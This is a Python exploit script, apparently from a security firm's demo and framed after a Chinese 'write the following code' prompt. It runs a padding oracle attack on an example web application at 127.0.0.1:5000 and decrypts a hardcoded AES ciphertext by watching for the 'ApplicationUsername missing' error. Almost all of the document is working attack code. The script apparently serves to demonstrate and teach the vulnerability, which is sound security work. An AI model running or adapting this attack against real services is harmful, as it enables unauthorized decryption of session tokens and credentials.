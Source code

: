 撰写以下代码：

```python
#!/usr/bin/env python 
"""Exploits a Padding Oracle vulnerability in an example web application.

Exploits a Padding Oracle vulnerability in an example web application (advanced
scenario). It uses the python-paddingoracle library. Simple pattern matching is
performed to detect padding errors.
"""

from paddingoracle import BadPaddingException, PaddingOracle
import requests
import binascii
import logging

__author__ = "Georg Chalupar"
__email__ = "gchalupar@gdssecurity.com"
__copyright__ = "Copyright 2015, Gotham Digital Science Ltd"

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.session = requests.Session()

    def oracle(self, data, **kwargs):
        """Sends data to web applicaiton and detects padding exception by
        checking for 'ApplicationUsername missing' in the responses."""
        
        # prefix value that decrypts to 'ApplicationUsername=user&Passwor'
        prefix = '484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3'
        cipher = prefix + binascii.hexlify(data)
        
        # send HTTP request and receive response
        response = self.session.get('http://127.0.0.1:5000/check',
            params={'cipher': cipher}, timeout=5, verify=False)
        
        # check for error message in response and throw BadPaddingException if it maches
        if 'ApplicationUsername missing' in response.text:
            raise BadPaddingException
        
        logging.debug('No padding exception raised on {}'.format(binascii.hexlify(data)))

if __name__ == '__main__':
    # enable debug logging and create padbuster instance
    logging.basicConfig(level=logging.DEBUG)
    padbuster = PadBuster()

    # value to decrypt
    cipher = '484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c126'
    cipherData = binascii.unhexlify(cipher)
    
    # launch padding oracle attack to decrypt value
    # block_size=16: set block size for AES (16 bytes = 128 bits)
    # iv=None: interpret first block as IV and do attempt not decrypt it
    decrypted = padbuster.decrypt(cipherData, block_size=16, iv=None)
    
    # print results
    print('\n\n\nDecrypted cipher value: %s => %r\n' % (cipher, decrypted))

```
